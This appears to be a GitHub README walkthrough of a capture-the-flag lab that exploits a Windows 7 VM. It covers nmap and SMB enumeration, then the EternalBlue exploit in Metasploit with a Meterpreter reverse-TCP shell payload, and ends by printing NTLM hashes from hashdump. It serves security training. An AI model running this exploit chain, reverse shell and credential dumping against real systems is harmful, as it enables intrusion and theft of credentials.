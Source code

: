 # New-Capstone-Lab-Blue-Machine-

<h2>**IP Address provided: 10.0.2.5**</h2>

This repository provides a comprehensive guide to the Blue Machine which is a Capture the Flag (CTF) challenge designed to test your skills in network scanning, web application testing, password cracking, privilege escalation, and system exploitation. This machine provides an opportunity to utilise a variety of tools and techniques commonly used in real-world penetration testing. You will encounter a combination of web-based vulnerabilities, system misconfigurations, and network-related challenges.

### Features:
- NMAP ()
- Metasploit (Framework)
Metasploit is a penetration testing framework that helps security professionals identify and exploit vulnerabilities in networks, systems, and applications

### Prerequisites:
Before starting the Academy Machine challenge, it is recommended to have basic knowledge and hands-on experience with the following tools and concepts:

- Metasploit

<h2>Environments Used </h2>

- <b>Linux</b>
- <b>Windows</b>
- <b>VirtualBox</b>

<h2>Walk-through:</h2>

Started out by using Nmap to dearch for open ports on the target 10.0.2.5

nmap -A -p- -T4 10.0.2.5

![image](https://github.com/user-attachments/assets/801f2eaf-bd8b-466e-aa1c-920ccb0aa0c0)

I can see that port 139 tcp netbios-ssn Microsoft Windows netbios-ssn is open  
I can also see that port 445 tcp Windows 7 Ultimate 7601 Service Pack 1 Microsoft-ds (workgroup: WORKGROUP)

I will research the exploits for both of these.

**Port 139**  
NetBIOS stands for Network Basic Input Output System. It is a software protocol that allows applications, PCs, and Desktops on a local area network (LAN) to communicate with network hardware and to transmit data across the network. Software applications that run on a NetBIOS network locate and identify each other via their NetBIOS names. A NetBIOS name is up to 16 characters long and usually, separate from the computer name. Two applications start a NetBIOS session when one (the client) sends a command to “call” another client (the server) over TCP Port 139

**Port 445**  
While Port 139 is known technically as ‘NBT over IP’, Port 445 is ‘SMB over IP’. SMB stands for ‘Server Message Blocks’. Server Message Block in modern language is also known as Common Internet File System. The system operates as an application-layer network protocol primarily used for offering shared access to files, printers, serial ports, and other sorts of communications between nodes on a network.  
For instance, on Windows, SMB can run directly over TCP/IP without the need for NetBIOS over TCP/IP. This will use, as you point out, port 445. On other systems, you’ll find services and applications using port 139. This means that SMB is running with NetBIOS over TCP/IP**.**

I decided to attempt port 445 first as this was the one that stood out the most to me.

I listed the SMB shares using smbclient -L 10.0.2.5 and was asked for a password, i hit enter and ws able to view the share names.

I tried accessing admin with no password.  
smbclient \\10.0.2.5\ADMIN$  
Password for [WORKGROUP\kali]:  
tree connect failed: NT_STATUS_ACCESS_DENIED

I tried accessing C$ with no password.  
smbclient \\10.0.2.5\C$  
Password for [WORKGROUP\kali]:  
tree connect failed: NT_STATUS_ACCESS_DENIED

I was able to access IPC$ with no password.  
smbclient \\10.0.2.5\IPC$  
Password for [WORKGROUP\kali]:  
Try "help" to get a list of possible commands.

i tried ls  
smb: > ls  
NT_STATUS_INVALID_PARAMETER listing *

Further information gathering found this port 445 has an exploit called eternal blue.

![image](https://github.com/user-attachments/assets/6e6eb516-bddf-47bd-92a7-74d113102505)

Using Metasploit i searched for eternal blue and a few come up, i decided to use an auxiliary to start off with as this will be a check before launching an attack.

Unfortunately my windows lab crashed so i received connection time out.

Restarted the windows lab and retested.

msfconsole reloaded and ran search for eternal blue

![image](https://github.com/user-attachments/assets/2383d7df-56ef-40d7-acfb-d13f890170ec)

used no 1 (use 1)  
options  
set RHOSTS to IP Address of the machine scanning.  
Run the scan against the machine.

[+] 10.0.2.5:445 - Host is likely VULNERABLE to MS17-010! - Windows 7 Ultimate 7601 Service Pack 1 x64 (64-bit)  
[*] 10.0.2.5:445 - Scanned 1 of 1 hosts (100% complete)  
[*] Auxiliary module execution completed

Now we have confirmed that the system is vulnerable to eternal blue we look at what exploits are available.  
search eternal blue to bring up the menu again.  
no 3 looks promising so we will use this one as the other says win8 and we know its a windows 7 machine.

use 3  
options  
set rhosts to IP Address  
this module has a check feature so lets check it.

Type check and enter  
msf6 exploit(windows/smb/ms17_010_eternalblue) > check

[*] 10.0.2.5:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check  
[+] 10.0.2.5:445 - Host is likely VULNERABLE to MS17-010! - Windows 7 Ultimate 7601 Service Pack 1 x64 (64-bit)  
[*] 10.0.2.5:445 - Scanned 1 of 1 hosts (100% complete)  
[+] 10.0.2.5:445 - The target is vulnerable.

This shows the same as the scanner so we know this should work.

So we now need to set a payload.

We know from the previous scans that this machine is 64 bit and sometimes payloads are set to 32bit so we need to be on the safe side and set the payload to 64bit.  
we are also going to use a meterpreter shell as we want a nice interface and we are going to set a reverse-tcp

Type in options.  
Set LHOST to eth0 or your IP Address.

RUN this

![image](https://github.com/user-attachments/assets/50d7aa97-413b-4d8f-a12a-e72c4bcc4642)

set payload windows/x64/meterpreter/reverse_tcp

Run  
This will run through trying to access, sometimes it wont happen the first time so give another go. Mine worked first time which was great.

Sorry, my screenshot wouldnt work so i took a picture of the screen.

![image](https://github.com/user-attachments/assets/459ae81b-4061-4093-a6d7-d429950a640d)

Eternal Blue has been out for sometime now but is still successful in infiltrating machines that have not been updated or cant be updated.

Type in Hashdump.

meterpreter > hashdump  
Administrator:500:aad3b435b51404eeaad3b435b51404ee:58f5081696f366cdc72491a2c4996bd5:::  
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::  
HomeGroupUser$:1002:aad3b435b51404eeaad3b435b51404ee:f580a1940b1f6759fbdd9f5c482ccdbb:::  
user:1000:aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe:::

Now we have the hashes for the Administrator, Guest, Home Group and User:1000.

We can use this to try and crack it, we can use pass the hash etc.




